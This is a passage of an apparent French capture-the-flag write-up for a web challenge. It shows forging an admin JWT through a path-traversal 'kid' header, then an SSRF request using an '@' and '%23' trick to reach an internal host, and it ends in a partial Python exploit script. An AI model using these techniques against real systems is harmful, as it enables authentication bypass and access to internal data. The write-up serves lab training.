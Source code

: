 En met ce jwt dans les cookie puis en allant sur `/api/me`, on voit bien désormais qu'on est admin : `{"acl":"admin"}`. On peut désormais aller voir les leaks sur `/api/leaks` :

```
{
  "whistleblower.internal":
    ["/flag_5d61b995c212f1ccb2ea.restricted"]
}
```

Notre fichier flag est sur le domaine interne whistleblower.internal. On va réutiliser notre SSRF pour y aller et le récupérer :

```
http://challs.lab.algosecu.re:40005/api/document?location=a@whistleblower.internal/flag_5d61b995c212f1ccb2ea.restricted%23.disclosed&raw=true
```

Note : pour changer de domaine, on va utiliser `@` pour faire `login@domain`

```
ALG{Cu5t0m_JwT_AnD_D0ubl3_S5RF_FTW}
```

Et le script d'exploitation de bout en bout :

```python
import jwt, json, sys, requests

if len(sys.argv) != 3:
    sys.exit(f"Usage : {sys.argv[0]} http://challenge_url key_file")

base_url = sys.argv[1]

key_path = f"../../../../../../{sys.argv[2]}"
data = {"acl": "admin"}

with open(sys.argv[2], 'r') as file:
    user_secret = file.read()

jwt_encoded = jwt.encode(data, user_secret, algorithm="HS512", headers={"kid": key_path})

r = requests.get(
    f"{sys.argv[1]}/api/me",
    cookies={"jwt": jwt_encoded}
)

if r.status_code != 200:
    print("Exploit failed =(")
    sys.exit(1)

print(f"[!] Common key : {sys.argv[2]}")
print(f" |___ jwt={jwt_encoded}")

print("")
print(f"[%] Getting leaks : {base_url}/api/leaks")
r = requests.get(
    f"{base_url}/api/leaks", 
    cookies={"jwt": jwt_encoded}
)
print(f" |___ response => {r.text}")

j = json.loads(r.text)

domain = next(iter(j))
flag = j[domain][0]

r = requests.get(
```